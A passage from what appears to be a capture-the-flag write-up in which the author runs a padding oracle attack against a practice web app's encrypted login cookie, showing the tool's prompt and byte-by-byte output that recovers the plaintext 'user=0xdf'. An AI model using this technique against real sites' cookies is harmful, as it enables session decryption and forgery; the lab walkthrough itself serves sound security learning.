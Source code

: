     Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended:
    

In this case, number 1 returns a 200 (the page) for one of the cookies, and
number 2 returns a 302 to `logout.php` for the other 255 cookies. It’s asking
which is the error (and suggesting 2). I agree, so I’ll enter 2. Now it will
continue brute-forcing the bytes of the cookie to get the plaintext:

    
    
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (188/256) [Byte 8]
    [+] Success: (89/256) [Byte 7]
    [+] Success: (24/256) [Byte 6]
    [+] Success: (168/256) [Byte 5]
    [+] Success: (78/256) [Byte 4]
    [+] Success: (174/256) [Byte 3]
    [+] Success: (73/256) [Byte 2]
    [+] Success: (18/256) [Byte 1]
    
    Block 1 Results:
    [+] Cipher Text (HEX): 5b4f1f86ec7e9568
    [+] Intermediate Bytes (HEX): e6b054b75ceba545
    [+] Plain Text: user=0xd
    
    *** Starting Block 2 of 2 ***
    
    [+] Success: (146/256) [Byte 8]
    [+] Success: (112/256) [Byte 7]
    [+] Success: (134/256) [Byte 6]
    [+] Success: (17/256) [Byte 5]
    [+] Success: (124/256) [Byte 4]
    [+] Success: (226/256) [Byte 3]
    [+] Success: (177/256) [Byte 2]
    [+] Success: (203/256) [Byte 1]
    
    Block 2 Results:
    [+] Cipher Text (HEX): c7dce25292e93514
    [+] Intermediate Bytes (HEX): 3d481881eb79926f
    [+] Plain Text: f
    
    -------------------------------------------------------
    ** Finished ***
    
    [+] Decrypted value (ASCII): user=0xdf
    
    [+] Decrypted value (HEX): 757365723D3078646607070707070707
    
    [+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==
    
    -------------------------------------------------------
    

It takes several minutes, but it gets the full decrypted cookie. I’ll note
that my guess from above was correct, the cookie is of the form
“user=[username]”.
